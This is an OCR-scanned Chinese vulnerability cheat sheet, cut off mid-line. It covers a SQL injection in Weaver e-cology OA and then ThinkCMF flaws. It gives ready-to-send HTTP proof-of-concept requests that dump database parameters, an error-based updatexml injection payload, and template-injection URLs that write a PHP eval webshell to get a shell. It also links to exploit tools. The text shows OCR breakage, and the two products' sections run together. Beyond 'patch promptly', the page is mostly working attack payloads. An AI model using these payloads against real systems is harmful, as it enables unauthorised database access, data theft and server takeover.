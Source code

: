 ###    泛微E-cology OA系统SQL注入漏洞

1. 漏洞简介
      泛 微 e-cology 
      OA系统的WorkflowCenterTreeData接口在使用Oracle数据库时,由于
      内 置 SQL 语 句 拼 接 不 严 , 导 致 泛 微 e-cology 
      OA系统存在SQL注入漏洞。攻击者利用该漏洞，可在未授权的情况下
      ，远程发送精心构造的SQL语句，从而获取数据库敏感信息。
2. 影响范围
      泛微e-cology<=9.0
3. 漏洞复现
      泛微生态OA系统SQL注入扩展复现
      https://mumuka.gitee.io/passages/%E6%B3%9B%E5%BE%AEe￾cology%20OA%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%
      E6%B4%9E%E5%A4%8D%E7%8E%B0/
      泛微 e-cology OA 前台SQL注入漏洞复现
      https://cloud.tencent.com/developer/article/1521764
4. 简易poc
      POST 
      /mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&sco
      pe=2333 HTTP/1.1
      Host: ip:port
      User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) 
      Gecko/20100101 Firefox/56.0
      Accept: 
      text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
      Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
      Accept-Encoding: gzip, deflateContent-Type: application/x-www￾form-urlencoded
      Content-Length: 2236
      Connection: close
      Upgrade-Insecure-Requests: 1
      formids=11111111111)))%0a%0dunion select NULL,value from 
      v$parameter order by (((1
5. 利用工具
      AdministratorGithub/e-cology-OA-SQL
      https://github.com/AdministratorGithub/e-cology-OA-SQL
   mmioimm/ecology_test
      https://github.com/mmioimm/ecology_test
6. 防护方法
      及时打补丁
      泛微官方安全补丁：https://www.weaver.com.cn/cs/securityDownloa
      d.asp
      Thinkcmf相关
      前台SQL注入:
7. 依赖条件
      需要普通用户权限，默认可注册
8. payload：
   `POST /ThinkCMFX/index.php?g=portal&m=article&a=edit_post` 
   `HTTP/1.1`
   `Host: localhost`
   `Connection: close`
   `Cookie: PHPSESSID=kcg5v82ms3v13o8pgrhh9saj95`
   `Content-Type: application/x-www-form-urlencoded`
   `Content-Length: 79`
    `postid=bind&postid=0 and updatexml(1,` 
   `concat(0x7e,user(),0x7e),1)--+-`
   **前台模版注入漏洞**-可getshell四处
   （仅在windows环境下设置）
   第一处
   http://website/ThinkCMFX/index.php?g=Comment&m=Widget&a=fetch&
   templateFile=/../public/index&content=<%3fphp+file_put_contents('m.p
   hp','<%3fphp+eval($POST[])%3b');?>&prefix=
   第 二 处
    http://website/ThinkCMFX/index.php?g=Api&m=Plugin&a=fetch&templ